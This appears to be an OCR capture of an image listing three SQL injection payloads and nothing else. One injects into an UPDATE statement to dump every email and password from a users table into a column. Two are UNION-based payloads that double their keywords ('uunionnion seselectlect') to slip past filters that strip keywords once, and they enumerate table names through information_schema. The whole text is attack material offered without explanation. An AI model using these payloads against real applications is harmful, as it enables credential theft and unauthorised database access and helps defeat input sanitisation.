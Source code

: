 -=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=

', last_reset=CONCAT(?, (SELECT GROUP_CONCAT(email, password SEPARATOR ' ') from (SELECT * FROM users) AS userscopy)), reset_actor=? where email=? -- )

-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=

a" uunionnion seselectlect 1,(selselectect table_name from information_schema.columns where column_name like '%period%'),3,4,5,6,7,"8

-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=

a" uunionnion seselectlect 1,(selselectect group_concat(table_name) from information_schema.columns where column_name like '%a%'),3,4,5,6,7,"8

-=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=-=-=-=-=-=-=-=-=-=-=--=-=



